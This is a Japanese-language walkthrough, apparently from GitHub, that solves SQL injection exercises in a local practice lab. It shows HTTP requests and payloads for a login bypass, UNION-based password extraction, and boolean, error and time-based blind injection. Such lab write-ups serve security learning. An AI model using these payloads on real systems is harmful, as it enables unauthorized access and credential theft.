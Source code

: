 # SQL Injection

## Login
適当なログインIDとパスワードを入れる。当然ログインできない。
```http
POST /lab/sql-injection/post-login/ HTTP/1.1
Host: localhost:1337
Content-Length: 28

username=admin&password=pass
```

パスワードにOR文を加えてみるとログイン成功し、LeBron Jamesさんの画面が出てくる。
```http
POST /lab/sql-injection/post-login/ HTTP/1.1
Host: localhost:1337
Content-Length: 39

username=admin&password=pass'OR'1'%3d'1
```

## Find the Passwords
検索フォームの内容に応じてID,Username,E-Mail,Name,Surnameが一覧表示される。

検索欄に`'and'1'='1'# `を入れた場合に全件表示される。  
`'and'1'='2'# `だと1件も出てこない。スペルミスした`'axd'1'='1'# `だと１件も出てこない。  
このためSQLインジェクションの脆弱性がある状態だとわかる。

`1' union select id,username,password,id,id,id from users# `と入れてみると、
E-Mail欄にパスワードが表示される。
```http
GET /lab/sql-injection/find-password/?search=1%27+union+select+id%2Cusername%2Cpassword%2Cid%2Cid%2Cid+from+users%23+ HTTP/1.1
Host: localhost:1337

```

## Boolean-Based Blind SQL Injection
プルダウンから選んだ商品の在庫有無が表示される。
```http
POST /lab/sql-injection/post-blind-boolean/ HTTP/1.1
Host: localhost:1337
Content-Length: 15

search=iphone11
```
iPhone11の在庫はあるらしく、レスポンスに`We have this product in stock.`と表示される。

`search=iphone11'and'1'='1'#`でも在庫あり表示だが、
`search=iphone11'axd'1'='1'#`だと`Product sold out.`になるためandとaxdが解釈されていると判断できる。

また、`search=iphone11'and+sleep(2)=sleep(2)#`にすることでsleepが効いていることもわかる。

## Error-Based Blind SQL Injection

Nextを押すごとに`img=`のところに異なる数字が入る。

`img='`とするとエラーメッセージが表示され、MariaDBを使っていることや構文エラーであることが分かる。
> You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1

`img=''`とするとエラーメッセージが出ないことから、SQLに干渉していることが明らか。

sleep(5)なども当然効くし、エラーメッセージに入力値が表示されることを利用するとXSSもできる。

## Time-Based Blind SQL Injection
タイトルがヒントでもあるので、最初からTime-Basedを狙う。

`email=hoehoe'%2b(select*from(select(sleep(3)))a)%2b'`とすることで、待ち時間が発生することが分かる。
